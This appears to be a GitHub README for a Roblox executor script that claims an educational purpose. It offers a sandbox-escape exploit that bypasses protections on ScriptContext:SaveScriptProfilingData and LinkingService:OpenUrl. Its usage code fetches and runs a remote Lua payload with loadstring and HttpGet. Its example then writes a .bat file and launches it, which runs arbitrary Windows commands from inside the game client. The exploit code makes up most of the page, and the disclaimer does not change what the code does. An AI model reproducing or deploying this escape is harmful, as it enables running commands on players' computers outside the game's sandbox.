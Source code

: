 ### Someone, pls maintain this code, i am too lazy for that, and thanks

# Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made to bypass **ENV** that are protected from vulnerabilities like `game:GetService("ScriptContext"):SaveScriptProfilingData` and `game:GetService("LinkingService"):OpenUrl`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if why ~= "Failed" and why ~= "UnSupported" then
    local L, S = bypassed_env.game:GetService("LinkingService"), bypassed_env.game:GetService("ScriptContext")
    L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why_full ~= nil then
    print(why_full)
else
    print(why)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).

